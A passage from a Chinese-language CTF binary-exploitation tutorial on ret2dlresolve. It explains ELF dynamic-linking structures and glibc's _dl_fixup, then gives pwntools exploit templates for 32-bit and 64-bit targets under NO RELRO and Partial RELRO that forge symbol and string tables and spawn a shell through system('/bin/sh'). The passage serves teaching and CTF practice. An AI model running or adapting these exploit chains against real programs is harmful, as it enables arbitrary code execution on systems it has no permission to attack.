  Elf64_Sxword	d_tag;			/* Dynamic entry type */  
  union  
    {  
      Elf64_Xword d_val;		/* Integer value */  
      Elf64_Addr d_ptr;			/* Address value */  
    } d_un;  
} Elf64_Dyn;
```

Dyn 结构体用于描述动态链接时需要使用到的信息，其成员含义如下：

* `d_tag` 表示标记值，指明了该结构体的具体类型。比如，`DT_NEEDED` 表示需要链接的库名，`DT_PLTRELSZ` 表示 PLT 重定位表的大小等。
* `d_un` 是一个联合体，用于存储不同类型的信息。具体含义取决于 `d_tag` 的值。

* 如果 `d_tag` 的值是一个整数类型，则用 `d_val` 存储它的值。
* 如果 `d_tag` 的值是一个指针类型，则用 `d_ptr` 存储它的值

|  |  |
| --- | --- |
| d\_tag类型 | d\_un定义 |
| `#define DT_STRTAB 5` | 动态链接字符串表的地址，`d_ptr`表示`.dynstr`的地址 (Address of string table) |
| `#define DT_SYMTAB 6` | 动态链接符号表的地址，`d_ptr`表示`.dynsym`的地址 (Address of symbol table) |
| `#define DT_JMPREL 23` | 动态链接重定位表的地址，`d_ptr`表示`.rel.plt`的地址 (Address of PLT relocs) |
| `#define DT_RELENT 19` | 单个重定位项的大小，`d_val`表示单个重定位项大小 (Size of one Rel reloc) |
| `#define DT_SYMENT 11` | 单个符号表项的大小，`d_val`表示单个符号表项大小 (Size of one symbol table entry) |

### Sym

```
/* Symbol table entry.  */

typedef struct
{
  Elf32_Word	st_name;		/* Symbol name (string tbl index) */
  Elf32_Addr	st_value;		/* Symbol value */
  Elf32_Word	st_size;		/* Symbol size */
  unsigned char	st_info;		/* Symbol type and binding */
  unsigned char	st_other;		/* Symbol visibility */
  Elf32_Section	st_shndx;		/* Section index */
} Elf32_Sym; 
0x10

typedef struct
{
  Elf64_Word	st_name;		/* Symbol name (string tbl index) */
  unsigned char	st_info;		/* Symbol type and binding */
  unsigned char st_other;		/* Symbol visibility */
  Elf64_Section	st_shndx;		/* Section index */
  Elf64_Addr	st_value;		/* Symbol value */
  Elf64_Xword	st_size;		/* Symbol size */
} Elf64_Sym;
```

Sym 结构体用于描述 ELF 文件中的符号（Symbol）信息，其成员含义如下：

* `st_name`：指向一个存储符号名称的字符串表的索引，即**字符串相对于字符串表起始地址的偏移**。
* `st_info`：如果 `st_other`**为 0** 则设置成 0x12 即可。
* `st_other`：决定**函数参数** `link_map` 参数是否有效。如果该值不为 0 则直接通过 `link_map` 中的信息计算出目标函数地址。否则需要调用 `_dl_lookup_symbol_x` 函数查询出新的 `link_map` 和 `sym` 来计算目标函数地址。
* `st_value`：符号地址相对于模块基址的偏移值。

### Rel

```
/* Relocation table entry without addend (in section of type SHT_REL).  */

typedef struct
{
  Elf32_Addr	r_offset;		/* Address */
  Elf32_Word	r_info;			/* Relocation type and symbol index */
} Elf32_Rel;

/* I have seen two different definitions of the Elf64_Rel and
   Elf64_Rela structures, so we'll leave them out until Novell (or
   whoever) gets their act together.  */
/* The following, at least, is used on Sparc v9, MIPS, and Alpha.  */
#define ELF32_R_SYM(val)    ((val) >> 8)
#define ELF32_R_TYPE(val)   ((val) & 0xff)
#define ELF32_R_INFO(sym, type)   (((sym) << 8) + ((type) & 0xff))

typedef struct
{
  Elf64_Addr	r_offset;		/* Address */
  Elf64_Xword	r_info;			/* Relocation type and symbol index */
} Elf64_Rel;

typedef struct
{
  Elf64_Addr	r_offset;		/* Address */
  Elf64_Xword	r_info;			/* Relocation type and symbol index */
  Elf64_Sxword	r_addend;		/* Addend */
} Elf64_Rela;

#define ELF64_R_SYM(i)                        ((i) >> 32)
#define ELF64_R_TYPE(i)                        ((i) & 0xffffffff)
#define ELF64_R_INFO(sym,type)                ((((Elf64_Xword) (sym)) << 32) + (type))
```

Rel 结构体用于描述重定位（Relocation）信息，其成员含义如下：

* `r_offset`：加上**传入的参数** `link_map->l_addr` 等于该函数对应 got 表地址。
* `r_info` ：符号索引的低 8 位（32 位 ELF）或低 32 位（64 位 ELF）指示符号的类型这里设为 7 即可，高 24 位（32 位 ELF）或高 32 位（64 位 ELF）指示符号的索引即 `Sym` 构造的数组中的索引。

### link\_map\_x86

```
struct link_map
  {
    ElfW(Addr) l_addr;    /* Difference between the address in the ELF
           file and the addresses in memory.  */
    char *l_name;   /* Absolute file name object was found in.  */
    ElfW(Dyn) *l_ld;    /* Dynamic section of the shared object.  */
    struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
    ...
    ElfW(Dyn) *l_info[DT_NUM + DT_THISPROCNUM + DT_VERSIONTAGNUM
              + DT_EXTRANUM + DT_VALNUM + DT_ADDRNUM];
```

`link_map` 是存储目标函数查询结果的一个结构体，我们主要关心 `l_addr` 和 `l_info` 两个成员即可。

* `l_addr`：目标函数所在 lib 的基址。
* `l_info`：`Dyn` 结构体指针，指向各种结构对应的 `Dyn` 。

* `l_info[DT_STRTAB]`：即 `l_info` 数组第 5 项，指向 `.dynstr` 对应的 `Dyn` 。
* `l_info[DT_SYMTAB]`：即 `l_info` 数组第 6 项，指向 `Sym` 对应的 `Dyn` 。
* `l_info[DT_JMPREL]`：即 `l_info` 数组第 23 项，指向 `Rel` 对应的 `Dyn` 。

```
struct link_map {
    Elf32_Addr l_addr;
    char *l_name;
    Elf32_Dyn *l_ld;
    struct link_map *l_next;
    struct link_map *l_prev;
    struct link_map *l_real;
    Lmid_t l_ns;
    struct libname_list *l_libname;
    Elf32_Dyn *l_info[76];//l_info 里面包含的就是动态链接的各个表的信息
    const Elf32_Phdr *l_phdr;
    Elf32_Addr l_entry;
    Elf32_Half l_phnum;
    ... ...
}
```

dynamic 中的地址对应着 link\_map 中l\_info 相应的指针，可从link\_map 取到dynamic 结构中.rel.plt .dynsym .dynstr对应的指针,为后来程序的执行提供各个节的基地址  


## dl\_runtime\_resolve 函数

`_dl_runtime_resolve` 的核心函数位 `_dl_fixup` 函数，这里是为了避免 `_dl_fixup` 传参与目标函数传参干扰（`_dl_runtime_resolve` 函数通过栈传参然后转换成 `_dl_fixup` 的寄存器传参）以及调用目标函数才在 `_dl_fixup` 外面封装一个 `_dl_runtime_resolve` 函数。`_dl_fixup` 函数的定义如下：

```
/* We use this macro to refer to ELF types independent of the native wordsize.
   `ElfW(TYPE)' is used in place of `Elf32_TYPE' or `Elf64_TYPE'.  */
```

```
_dl_fixup(truct link_map *l, ElfW(Word) reloc_arg) {
    // 获取符号表地址
    # define D_PTR(map, i) ((map)->i->d_un.d_ptr + (map)->l_addr)
    const ElfW(Sym) *const symtab = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
    // 获取字符串表地址
    const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
    // 获取函数对应的重定位表结构地址，sizeof (PLTREL) 即 Elf*_Rel 的大小。
    #define reloc_offset reloc_arg * sizeof (PLTREL)
    # define PLTREL  ElfW(Rel)
    const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
    // 获取函数对应的符号表结构地址
    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
    // 得到函数对应的got地址，即真实函数地址要填回的地址
    void *const rel_addr = (void *) (l->l_addr + reloc->r_offset);
    lookup_t result;
    DL_FIXUP_VALUE_TYPE value;

    // 判断重定位表的类型，必须要为 ELF_MACHINE_JMP_SLOT(7)  这里还会检查reloc->r_info的最低位是不是R_386_JUMP_SLOT=7
    assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);

    /* Look up the target symbol.  If the normal lookup rules are not
       used don't look in the global scope.  */
    // ☆ 关键判断，决定目标函数地址的查找方法。☆
    if (__builtin_expect(ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0) {
        const struct r_found_version *version = NULL;

        if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL) {
            const ElfW(Half) *vernum = (const void *) D_PTR (l, l_info[VERSYMIDX(DT_VERSYM)]);
            ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
            version = &l->l_versions[ndx];
            if (version->hash == 0)
                version = NULL;
        }

        /* We need to keep the scope around so do some locking.  This is
       not necessary for objects which cannot be unloaded or when
       we are not using any threads (yet).  */
        int flags = DL_LOOKUP_ADD_DEPENDENCY;
        if (!RTLD_SINGLE_THREAD_P) {
            THREAD_GSCOPE_SET_FLAG ();
            flags |= DL_LOOKUP_GSCOPE_LOCK;
        }

#ifdef RTLD_ENABLE_FOREIGN_CALL
        RTLD_ENABLE_FOREIGN_CALL;
#endif
        // 查找目标函数地址
        // result 为 libc 的 link_map ，其中有 libc 的基地址。
        // sym 指针指向 libc 中目标函数对应的符号表，其中有目标函数在 libc 中的偏移。
        result = _dl_lookup_symbol_x(strtab + sym->st_name, l, &sym, l->l_scope,
                                     version, ELF_RTYPE_CLASS_PLT, flags, NULL);

        /* We are done with the global scope.  */
        if (!RTLD_SINGLE_THREAD_P)
            THREAD_GSCOPE_RESET_FLAG ();

#ifdef RTLD_FINALIZE_FOREIGN_CALL
        RTLD_FINALIZE_FOREIGN_CALL;
#endif

        /* Currently result contains the base load address (or link map)
       of the object that defines sym.  Now add in the symbol
       offset.  */
        // 基址 + 偏移算出目标函数地址 value
        value = DL_FIXUP_MAKE_VALUE (result, sym ? (LOOKUP_VALUE_ADDRESS(result) + sym->st_value) : 0);
    } else {
        /* We already found the symbol.  The module (and therefore its load
       address) is also known.  */
        // 这里认为 link_map 和 sym 中已经是目标函数的信息了，因此直接计算目标函数地址。
        value = DL_FIXUP_MAKE_VALUE (l, l->l_addr + sym->st_value);
        result = l;
    }

    /* And now perhaps the relocation addend.  */
    value = elf_machine_plt_value(l, reloc, value);

    if (sym != NULL
        && __builtin_expect(ELFW(ST_TYPE) (sym->st_info) == STT_GNU_IFUNC, 0))
        value = elf_ifunc_invoke(DL_FIXUP_VALUE_ADDR (value));

    /* Finally, fix up the plt itself.  */
    if (__glibc_unlikely (GLRO(dl_bind_not)))
        return value;
    // 更新 got 表
    return elf_machine_fixup_plt(l, result, reloc, rel_addr, value);
}
```

需要注意的是 `_dl_fixup` 中会有如下判断，根据这个判断决定了重定位的策略。

```
if (__builtin_expect(ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
```

`_dl_fixup` 函数在计算出目标函数地址并更新 got 表之后会回到 `_dl_runtime_resolve` 函数，之后 `_dl_runtime_resolve` 函数会**调用目标函数**。

## 32 位 ret2dlresolve

在 32 位下我们可以利用 `ELFW(ST_VISIBILITY) (sym->st_other)` 为 0 时的执行流程进行控制流劫持，因为这个执行流程会自动计算目标函数的地址，**不需要知道 libc 具体版本**，适用性更强。  
其中 `ELFW(ST_VISIBILITY) (sym->st_other)` 为 0 时 `_dl_runtime_resolve` 函数的具体执行流程为：  


* 用 `link_map` 访问 `.dynamic` ，取出 `.dynstr` ， `.dynsym` ， `.rel.plt` 的指针。
* `.rel.plt + 第二个参数` 求出当前函数的重定位表项 `Elf32_Rel` 的指针，记作 `rel` 。
* `rel->r_info >> 8` 作为 `.dynsym` 的下标，求出当前函数的符号表项 `Elf32_Sym` 的指针，记作 `sym` 。
* `.dynstr + sym->st_name` 得出符号名字符串指针。
* 在动态链接库查找这个函数的地址，并且把地址赋值给 `*rel->r_offset` ，即 GOT 表。
* 调用这个函数。

### NO RELRO情况下：改写 .dynamic 的 DT\_STRTAB

这个只有在 checksec 时 `NO RELRO` 可行，即 `.dynamic` 可写。因为 `ret2dl-resolve` 会从 `.dynamic` 里面拿 `.dynstr` 字符串表的指针，然后加上 offset 取得函数名并且在动态链接库中搜索这个函数名，然后调用。而假如说我们能够改写这个指针到一块我们能够操纵的内存空间，当 resolve 的时候，就能 resolve 成我们所指定的任意库函数。

**这里需要向存储**`.dynstr`**地址的内存中写入我们伪造的**`.dynstr`  
例如：  


#### exp板子



```
padding = 112 #到ret的padding
read_plt = elf.plt['read']
write_plt = elf.plt['write']
rop_addr = elf.bss()+0x100
leave_ret = next(elf.search(asm('leave;ret'), executable=True))
ru('Welcome to XDCTF2015~!
')
payload = flat(b'A' * (padding-4)
, p32(rop_addr)
, p32(read_plt)
, p32(leave_ret)
, p32(0)
, p32(rop_addr)
, p32(0x100)
)
pause()
sl(payload)

# 由于多函数调用在一个payload里会参数混乱，此时system的参数为p32(strtab)，所以采取shell注入的方式
fake_dynstr = b'\x00libc.so.6\x00_IO_stdin_used\x00stdin\x00strlen\x00read\x00stdout\x00setbuf\x00__libc_start_main\x00system\x00' 
func_name = 'write'

payload2 = flat('AAAA'
, p32(read_plt)
, p32(elf.plt[func_name]+6) # push 20h;jmp plt[0]
, p32(0)
, p32(0x8049808) #  存储.dynstr的地址
, p32(0x100)
, fake_dynstr)
pause()
sl(payload2)
# # 这里实际上是 system(p32(base_stage+24)+';sh') 而由于system(p32(base_stage+24))会调用失败，显示找不到这个命令，然后就会被';'结束掉这个命令，开启下一个命令，也就是system('sh')
fake_str_addr = flat(p32(rop_addr + 24),';sh') # 覆盖strtab地址，并shell注入
# payload3 = flat(fake_str_addr )
pause()
sl(fake_str_addr)
```

.dynstr伪造需要在ida中观察  


### Partial RELRO情况下：操纵第二个参数，使其指向我们所构造的 Elf32\_Rel

由于 `_dl_runtime_resolve` 函数各种按下标取值的操作都没有进行越界检查，因此如果 `.dynamic` 不可写就操纵 `_dl_runtime_resolve` 函数的第二个参数，使其访问到可控的内存，然后在该内存中伪造 `.rel.plt` ，进一步可以伪造 `.dynsym` 和 `.dynstr` ，最终调用目标函数。

#### 计算reloc\_arg的方法

```
reloc_arg = fake_rel_addr - .rel.plt(JMPREL)
```

#### 计算r\_info的方法

1. n = (欲伪造的地址-.dynsym基地址)/0x10
2. r\_info = n<<8

```
r_info = (((fake_sym_addr - .dynsym(SYMTAB))/0x10)<<8)|0x7
```

#### 计算st\_name的方法

```
st_name = fake_name_addr - .dynstr(STRTAB)
```

#### exp板子



```
def ret2dlresolve():
    func_name = b"system"
    func_args = b"/bin/sh"
    resolve_plt = elf.get_section_by_name('.plt').header['sh_addr']
    JMPREL = elf.dynamic_value_by_tag('DT_JMPREL')
    SYMTAB = elf.dynamic_value_by_tag('DT_SYMTAB')
    STRTAB = elf.dynamic_value_by_tag('DT_STRTAB')

    fake_rel_addr = rop_addr + 5 * 4
    reloc_offset = fake_rel_addr - JMPREL
    fake_sym_addr = rop_addr + 7 * 4
    align = (0x10 - ((fake_sym_addr - SYMTAB) & 0xF)) & 0xF
    fake_sym_addr += align
    r_info = ((fake_sym_addr - SYMTAB) // 0x10 << 8) | 0x7  # 0x7 means that Assertion `ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT'
    fake_rel = p32(elf.bss() + 0x10) + p32(r_info)
    fake_name_addr = fake_sym_addr + 4 * 4
    st_name = fake_name_addr - STRTAB
    fake_sym = p32(st_name) + p32(0) * 2 + p8(0x12) + p8(0) + p16(0)
    bin_sh_offset = (fake_sym_addr + 0x10 - rop_addr + len(func_name) + 3) & ~3
    bin_sh_addr = rop_addr + bin_sh_offset

    payload = p32(0)
    payload += p32(resolve_plt)
    payload += p32(reloc_offset)
    payload += p32(0)
    payload += p32(bin_sh_addr)
    payload += fake_rel
    payload += b'\x00' * align
    payload += fake_sym
    payload += func_name
    payload = payload.ljust(bin_sh_offset, b'\x00')
    payload += func_args + b'\x00'
    return payload

if __name__ == '__main__':

    offset = 112 #到ret的偏移
    rop_addr = elf.bss()+0x700
    payload = b'a' * (offset-4) 
    payload += p32(rop_addr)
    payload += p32(elf.plt['read'])
    payload += p32(next(elf.search(asm('leave;ret'), executable=True)))
    payload += p32(0)
    payload += p32(rop_addr)
    payload += p32(0x100)

    sl(payload)
    pause()
    sl(ret2dlresolve())
```

## 64 位 ret2dlresolve

### 注意事项

#### 关于索引

64 位下，plt 中的代码 push 的是待解析符号在重定位表中的索引，而不是偏移。

#### 关于表的偏移

DT\_STRTAB指针：位于link\_map\_addr +0x68(32位下是0x34)  
DT\_SYMTAB指针：位于link\_map\_addr + 0x70(32位下是0x38)  
DT\_JMPREL指针：位于link\_map\_addr +0xF8(32位下是0x7C)

#### `_dl_runtime_resolve_avx`

64位下，这个函数的参数仍然是用栈传参

#### link\_map\_x64

```
struct link_map {
    Elf64_Addr l_addr;
    char *l_name;
    Elf64_Dyn *l_ld;
    struct link_map *l_next;
    struct link_map *l_prev;
    struct link_map *l_real;
    Lmid_t l_ns;
    struct libname_list *l_libname;
    Elf64_Dyn *l_info[76];  //l_info 里面包含的就是动态链接的各个表的信息
    ...
    size_t l_tls_firstbyte_offset;
    ptrdiff_t l_tls_offset;
    size_t l_tls_modid;
    size_t l_tls_dtor_count;
    Elf64_Addr l_relro_addr;
    size_t l_relro_size;
    unsigned long long l_serial;
    struct auditstate l_audit[];
}
```

### NO RELRO

64位下`NO RELRO`情况利用更简便，从栈传参变成了寄存器传参，不需要栈迁移，而且没有参数混乱的问题 ，一条rop链就能解决。

#### exp板子



```
read_plt = elf.plt['read']
dynstr = 0x600988 + 8    
plt0 = elf.get_section_by_name('.plt').header.sh_addr
pop_rdi = next(elf.search(asm('pop rdi;ret'),executable=True))
pop_rsi = next(elf.search(asm('pop rsi ; pop r15 ; ret'),executable=True))
#伪造dynstr  
fake_dynstr = b'\x00libc.so.6\x00stdin\x00system\x00' #原本dynstr为\x00libc.so.6\x00stdin\x00strlen\x00'
target = elf.bss() + 0x100
offset = 120
payload = flat(
    cyclic(offset), 
    pop_rdi , 
    0 , 
    pop_rsi , 
    target , 
    0 , 
    read_plt , # 将'/bin/sh'以及伪造的strtab写入bss段
    pop_rdi , 
    0 , 
    pop_rsi , 
    dynstr , 
    0 , 
    read_plt , # 将.dynamic中的strtab地址改为我们伪造的strtab的地址
    pop_rdi , 
    target , #/bin/sh
    plt0 , 
    1 # 调用.dl_fixup,解析strlen函数，由于我们已经在fake_strtab中将strlen替换成system，所以将会解析system函数
)
ru(b'Welcome to XDCTF2015~!
')
sl(payload)  
#发送system的参数以及伪造的strtab
payload2 = b'/bin/sh\x00'.ljust(0x10,b'\x00') + fake_dynstr  
sleep(1)  
sl(payload2)  
sleep(1)  
#修改dynsym里的strtab的地址为我们伪造的dynstr的地址  
sl(p64(target+0x10)) 
```

### Partial RELRO

64 位下伪造时（`.bss` 段离 `.dynsym` 太远） `reloc->r_info` 也很大，最后使得访问 `ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;` 时程序访存出错，导致程序崩溃。因此我们退而求其次选择 `ELFW(ST_VISIBILITY) (sym->st_other)` 不为 0 时时的程序执行流程，此时计算的目标函数地址为 `l->l_addr + sym->st_value` 。

虽然这种方法无法在不知道 libc 版本的情况下完成利用，但是可以在不泄露 libc 基址的情况下完成利用。

为了实现 64 位的 ret2dlresolve ，我们需要作如下构造：

* `resolve` 函数传入的第二个参数为 0 ，从而从 `Elf64_Rel` 数组中找到第一个 `Elf64_Rel` 。
* 为了避免更新 got 表时内存访问错误，`Elf64_Rel` 的 `r_offset` 加上 `link_map->l_addr` 需要指向可读写内存。
* `Elf64_Rel` 的 `r_info` 的低 32 比特设置为 `ELF_MACHINE_JMP_SLOT` 即 7 。
* 为了避免下面这行代码访存错误，需要让 `l_info[5]` 指向可读写内存。

```
const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
```

* `Elf64_Rel` 的 `r_info` 的高 32 比特设置为 0 这样找的就是 `Elf64_Sym` 数组中的第一个 `Elf64_Sym` 。
* `link_map->l_info[6]->d_un.dptr` 指向 `puts@got - 8` 这样就伪造出 `Elf64_Sym` 的 `st_value` 为 `puts` 函数地址，同时 `st_order` 也大概率为非 0 。
* `link_map` 的 `l_addr` 设置为 `&system - &puts` ，这样 `l->l_addr + sym->st_value` 结果就是 `system` 函数地址。

